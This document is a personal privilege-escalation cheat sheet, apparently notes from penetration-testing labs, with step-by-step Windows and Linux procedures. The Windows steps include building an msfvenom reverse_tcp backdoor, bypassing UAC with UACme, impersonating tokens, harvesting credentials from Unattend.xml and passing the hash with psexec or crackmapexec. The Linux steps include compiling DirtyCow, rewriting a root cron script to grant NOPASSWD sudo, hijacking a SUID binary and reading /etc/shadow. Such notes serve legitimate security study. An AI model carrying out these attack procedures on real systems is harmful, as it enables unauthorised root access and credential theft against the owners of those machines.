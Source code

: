 

- WINDOWS:

-KERNEL EXPLOIT:

After obtaining a meterpreter if we cannot make a hashdump:

search suggester (this post exploitation module shows the vulns & metasploit modules that can be used to elevate privileges) -> select what you want, configurate & run it.


Manual:

Go back to meterpreter -> shell -> sysinfo -> copy info on a text file -> control+c to see the meterpreter -> open another terminal & create a text file with nano & paste the previous info.

Search the directory of windows-exploit-suggester -> execute the python script & add --update -> then execute ./windows-exploit-suggester.py –database theonewecreatedwhenupdating --systeminfo the previous text file (the exploits that are in the firsts positions have more probability to work)

Go back to the unprivileged session of meterpreter and go to the Temp path -> upload /route/chosen/exploit -> shell -> .\exploit.exe 7 (where 7 is the O.S. version - windows 7) -> we obtain a new shell with all the privileges.


-BYPASSING UAC WITH UACME:

Watch the github repo of UACme to see the appropiate technique:

We have access to a Windows with an unprivileged user which is in admins. locales -> cmd -> net users (actual account is IEUser) -> net localgroup administrators -> when you open a cmd as administrator the UAC pop-ups.


In meterpreter:

sysinfo (take notes) -> pgrep explorer -> migrate PIDexplorer -> getuid (we are users of the group admin) -> getprivs (few privileges) -> shell -> net user -> net localgroups administrator -> net user admin password123 (access denied = UAC)

Go to the UACme github repository & download the appropiate version -> msfvenom -p windows/meterpreter/reverse_tcp LHOST=ipkali LPORT=availableport -f exe > backdoor.exe

Open another metasploit & use multi/handler (Config the same as the msfvenom payload) -> run

Come back to the meterpreter session of admin -> go to Temp and if it dowsn't exists, create it with mkdir -> upload backdoor.exe -> upload /root/Desktop/tools/UACME/Akagi64.exe (UAC chosen from the GitHub repo) -> shell -> dir -> .\Akagi64.exe 23 C:\Temp\backdoor.exe (& in the multi/handler listener we have the privileged session)


-ACCESS TOKEN IMPERSONATION:


Those privileges are neccessary for an attack:

SeAssignPrimaryToken: grants permission to impersonate tokens to the user.

SeCreateToken: grants permission to the user to create administrator tokens.

SeImpersonatePrivilege: grants the user to create a process down the context of security of another user with privileges, normally.


incognito Meterpreter module: allows impersonating tokens after exploitation, allows to list the available tokens in order to impersonate them.

Exploitation acces token impersonation:

In a Meterpreter -> sysinfo (take notes) -> pgrep explorer -> migrate PIDexplorer -> getuid -> getprivs (if you have the SeImpersonatePrivilege)-> load incognito (if the session dies do the exploit again) -> list_tokens -u (we have delegation tokens, we are interested in the Administrator account) -> copy that token to the clipboard -> impersonate_token “TOKEN\Administrator” -> pgrep explorer -> migrate PIDexplorer -> getprivs (ya tenemos todos)


If there aren't tokens make the potato attack to create the token & impersonate_token “NT AUTHORITY\SYSTEM”

  
The unattended windows setup utility stores user info. & system info config.: C:\Windows\Panther\Unattend.xml & Autounattend.xml passwords encoded in base64

  
Pass the hash authentication: with the psexec metasploit module or crackmapexec.

metasploit search psexec -> use the suitable one -> config the payload -> set smbpass plaintext OR hash LM:NTLM -> set target Command Native\ upload (the suitable one)

crackmapexec: crackmapexec smb IPobj -u Administrator -H “NTLM hash” (Pwned! = fine) -x “command” to execute commands.

  
- Linux:

-KERNEL EXPLOIT:

We need to know the kernel version (uname -a)

Metasploit Meterpreter + Linux Exploit Suggester:

sysinfo (OS + version + kernel); getuid (user without privileges [even a service user like www-data works])

cd /tmp -> upload ~/Desktop/Linux-Enum/les.sh -> chmod +x les.sh -> ./les.sh (enumerate vulns & exploits, also tells the kernel version ¨& arcquitecture) -> download the DirtyCow from [exploit-db.com](https://www.exploit-db.com/) (written in C) -> mv 40839.c dirty.c (rename) -> gcc -pthread dirty.c -o dirty -lcrypt (follow the compiling instructions of the exploit which are inside of it) -> come back to meterpreter & upload ~/Downloads/dirty (upload the compiled binary) -> /bin/bash -i -> chmod +x dirty -> ./dirty (input a password if you want) -> we get an error because it's not compiled on the victim machine -> come back to meterpreter -> shell -> /bin/bash -i -> gcc -pthread dirty.c -o dirty -lcrypt -> chmod +x dirty -> ./dirty password123 (makes an user firefart which is root & makes a backup of /etc/passwd before creating the user; now we have an user firefart with the password password123) -> su firefart (doesn't work but it's on SSH too) -> ssh firefart@IPobj (login) -> we are root so we can cat /etc/shadow to see the hashes of the user accounts.


-MISCONFIGURED CRON JOBS:


We have access to a Linux target without a privileged account.
  
crontab -l (no crontab for student)

ls -al in home there's a file owned by root without permissions, only has read and write permissions for the root user (file=message)

cd / -> grep -rnw /usr -e “home/student/message” (search resucrisvely from the root path, in /usr where typically are the shell scripts where appears home/student/message) -> response: /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message

We found a shell script (/usr/local/share/copy.sh & the appear of “home/student/message” it tells us the archive that is copied in /tmp/message)

list the /tmp content with ls -al /tmp

We have the message file with reading permissions -> cat the file

ls -al /usr/local/share/copy.sh (the file owns to root but it has permissions for everyone)

We make cat & see that it does what is red & black coloured upside, every minute (the script executes every minute)

in this lab we don't have nano or vim so: printf ‘#!/bin/bash\necho “student ALL=NOPASSWD:ALL” >> /etc/sudoers’ > /usr/local/share/copy.sh

sudo -l (user student may run the following commands:

(root) NOPASSWD: /etc/init.d/cron (before modifying the script)

(root) NOPASSWD: ALL (after modifying the script)

sudo su (we are root without authentication)

crontab -l (to see when the cron jobs is executed)

  
-EXPLOITING SUID BINARIES:

We have access with unprivileged user:

  
en /home/student -> ls -al (we have 2 binaries, greeting & welcome, both belongs to the root user) greeting only has permissions r & x for root but welcome has permissions rwsrxrx which S is the SUID privilege and we can execute it with privileges.

file welcome is an ELF standard binary with a shared object (after the interpreter = shared object) if the shared object doesn't exist we can create one with malicious code that elevates our privileges. In this case the shared object exists (noone is missing)

strings welcome to see the shared object & see the setuid (so it's a SUID) and we see that it invokes the binary “greetings”, which is external, but executes it.

rm greetings -> cp /bin/bash greetings now the welcome binary executes the bash shell as root when I execute the welcome binary, and now I'm root

Now we can cat /etc/shadow to see the user passwords hashed and whaterver we want.

  
-EXPLOITING A VULNERABLE PROGRAM:

After obtaining a meterpreter:

shell -> ps aux (root executes a binary /bin/check-down through a bash /bin/bash [first the bash appears and then the binary]) 

cat /bin/check-down (is a bash script that from a while loop executes every 60 seconds the program chkrootkit)

chkrootkit is a program that scans the PC to prevent the execution of a rootkit, in this particular case, is vulnerable to a privilege escalation (this vuln only affects versions previous than 0.5.0)

To see the version of the program chkrootkit –help -> chkrootkit -V

Control+C to close the shell channel

Background the meterpreter session

search chkrootkit -> use -> show options -> session & path of chkrootkit & lhost & lport -> exploit (if it doesn't works put the absolute path of chkrootkit) and we are root.